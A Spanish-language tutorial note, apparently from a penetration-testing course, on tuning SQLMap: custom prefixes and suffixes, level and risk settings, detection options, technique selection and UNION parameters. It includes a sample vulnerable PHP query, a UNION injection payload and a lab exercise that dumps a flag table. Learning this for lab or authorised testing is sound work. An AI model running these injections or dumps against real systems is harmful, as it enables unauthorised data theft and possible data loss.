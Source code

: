 
---
# Ajuste de Ataques en SQLMap

SQLMap está diseñado para funcionar de manera óptima con los detalles del objetivo proporcionados. Sin embargo, en algunos casos puede ser necesario ajustar la detección de SQLi para mejorar los resultados.

## Estructura de los Payloads

Cada payload enviado por SQLMap consta de:

- **Vector**: La parte central de la inyección, contiene el código SQL que se ejecutará en el objetivo.  
    _Ejemplo:_ `UNION ALL SELECT 1,2,VERSION()`
- **Boundaries**: Prefijo y sufijo que permiten insertar correctamente el vector en la consulta SQL vulnerable.  
    _Ejemplo:_ `<vector>-- -`

## Uso de Prefijo y Sufijo

En ciertos casos, SQLMap no puede inyectar directamente, por lo que se deben definir prefijos y sufijos específicos con `--prefix` y `--suffix`:

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Si la consulta vulnerable en el servidor es:

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
```

El payload:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

Esto ayuda en casos donde se requieren estructuras específicas para que la inyección sea exitosa.

## Nivel y Riesgo

SQLMap permite ajustar los vectores utilizados con las opciones:

- `--level` (1-5, por defecto 1): Amplía el número de vectores y boundaries utilizados. A mayor nivel, más pruebas con menor probabilidad de éxito.
- `--risk` (1-3, por defecto 1): Amplía el conjunto de vectores dependiendo del riesgo de afectar el sistema (pérdida de datos o DoS).

Ejemplo con máxima profundidad:

```bash
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

Esto incrementa el número de payloads enviados (de ~72 en `--level=1 --risk=1` hasta ~7,865 en `--level=5 --risk=3`).

⚠️ **Nota:** Aumentar estos valores ralentiza la detección. Solo modificar en casos donde los ataques estándar no sean efectivos.

## Depuración y Comparación de Payloads

Para observar las diferencias en los payloads generados con distintos niveles y riesgos, se puede usar `-v 3`:

```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

Salida con `--level=5` (más payloads y pruebas adicionales):

```
[INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
[INFO] testing 'Oracle boolean-based blind - WHERE clause (CTXSYS.DRITHSX.SN)'
...
```

Salida con valores por defecto (`--level=1 --risk=1`):

```
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
```
![[Pasted image 20250130125544.png]]

## Ajustes Avanzados

SQLMap permite afinar la detección con varias opciones específicas:

### **Basado en Códigos de Estado HTTP**

Si las respuestas del servidor varían según el código HTTP (`200` para TRUE, `500` para FALSE), se puede especificar con:

```bash
sqlmap -u www.example.com/?id=1 --code=200
```

### **Basado en el Título de la Página**

Si el cambio en la respuesta está en la etiqueta `<title>`, se usa:

```bash
sqlmap -u www.example.com/?id=1 --titles
```

### **Detección Basada en Texto**

Si la diferencia entre respuestas se encuentra en el contenido, se puede fijar con:

```bash
sqlmap -u www.example.com/?id=1 --string="Login successful"
```

### **Filtrar Solo Texto Visible**

Para ignorar etiquetas HTML (`<script>`, `<style>`, etc.) y analizar solo el contenido visible:

```bash
sqlmap -u www.example.com/?id=1 --text-only
```

## Selección de Técnicas SQLi

En ciertos casos, es necesario limitar las pruebas a un tipo específico de inyección con `--technique`:

```bash
sqlmap -u www.example.com/?id=1 --technique=BEU
```

- `B` (Boolean-based blind)
- `E` (Error-based)
- `U` (Union-based)
- `S` (Stacked queries)
- `T` (Time-based blind)

_⚠️ Útil si ciertas técnicas generan problemas (por ejemplo, time-based causando timeouts)._

## Ajustes para Inyección UNION

Si una inyección UNION requiere datos específicos, podemos definir:

- Número de columnas:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-cols=5
    ```
    
- Valores de relleno en UNION:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-char='X'
    ```
    
- Tabla específica en `FROM` (para bases de datos como Oracle):
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-from=users
    ```
    

---

## Ejercicios

* Ejercicio 1:
	`sqlmap -u "http://94.237.54.69:46196/case5.php?id=1" -D testdb -T flag5 --dump --level=1 --risk=2 --no-cast`

